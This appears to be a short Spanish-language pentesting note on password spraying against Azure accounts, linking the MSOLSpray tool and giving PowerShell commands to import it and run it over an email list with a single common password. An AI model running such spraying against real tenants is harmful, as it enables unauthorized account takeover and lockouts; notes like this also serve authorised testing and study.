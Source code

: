 # Password Spraying 

Tags: #Azure #CloudComputing #PasswordSpraying 

## MSOLSpray 

* [MSOLSpray](https://github.com/dafthack/MSOLSpray)

```powershell 
❯ Import-Module .\MSOLSpray.ps1       # Importar el módulo 
```

```powershell 
❯ Invoke-MSOLSpray -UserList .\diccionario.txt -Password 'P@ssw0rd!' -Verbose    # Password Spraying 

	# diccionario = Es el diccionario con correos a utilizar 
```